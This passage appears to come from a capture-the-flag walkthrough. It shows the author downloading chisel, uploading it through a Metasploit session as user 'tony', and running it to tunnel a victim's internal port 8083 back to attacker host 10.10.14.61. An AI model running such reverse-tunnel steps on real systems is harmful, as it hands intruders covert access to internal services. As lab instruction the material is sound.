 We need to forward the port and since we don't have ssh we will use chisel:

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_windows_amd64.gz
gzip -d chisel_1.10.1_windows_amd64.gz
gzip -d chisel_1.10.1_linux_amd64.gz
chmod +x chisel_1.10.1_linux_amd64
./chisel_1.10.1_linux_amd64 server --reverse --port 8001
```

In msf condole as tony:

```bash
upload chisel_1.10.1_windows_amd64
shell
.\chisel_1.10.1_windows_amd64 client 10.10.14.61:8001 R:8083:127.0.0.1:8083
```
```
http://127.0.0.1:8083/
```
